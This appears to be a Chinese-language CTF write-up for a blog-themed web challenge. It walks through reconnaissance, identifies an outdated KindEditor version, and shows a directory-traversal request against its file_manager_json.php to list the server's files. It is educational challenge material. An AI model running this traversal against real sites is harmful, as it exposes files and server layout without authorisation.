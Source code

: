 ```yaml
---
title: Blog专题
date: 2018-03-21 00:00:03
categories:
- CTF/Web
tags: 百度杯十二月 SQL注入 INSERT注入 文件包含 php黑魔法 php伪协议 php缓存 kindeditor目录浏览 
--- 
```


## blog简易篇

### 登录注册

- 对于只有一个登录框的题目，很有可能是注入或者绕过
- 但对于有登录和注册两个页面的题目，这里至少就有四个输入点，并不建议直接测试注入，先注册一个登录上去看看是首选

注册完对整站大概浏览，加上扫描，已知目录如下：

```
.
├── index.php
├── login.php
├── logout.php
├── register.php
├── config.php
├── user.php
├── post.php
├── robots.txt
└── flag.php

```


### KindEditor

在发博客的post.php处查看到编辑器的信息：KindEditor 4.1.10 (2013-11-23)，找到如下两个看起来比较好利用的漏洞：

- [WooYun-2014-67044: Kindeditor特定情况可能会导致全盘浏览](http://www.anquan.us/static/bugs/wooyun-2014-067044.html)

- [SSV-89546: kindeditor<=4.1.5文件上传漏洞](https://www.seebug.org/vuldb/ssvid-89546)

测试目录浏览的漏洞可以利用，文件上传的漏洞所需的/php/upload_json.php文件不存在。利用如下路径可以以读到整个web服务的目录情况：

```
http://7e1c27743e894a3ca9d29c0440a07b5a33a0186c4d5e41da.game.ichunqiu.com/kindeditor/php/file_manager_json.php?path=../../
```

现在了解的目录结构如下：

```
.
├── index.php
├── login.php
├── logout.php
├── register.php
├── config.php
├── user.php
├── post.php
├── robots.txt
├── blog_manage/
│   ├── article_manage.php
│   └── manager.php
└── kindeditor/

```
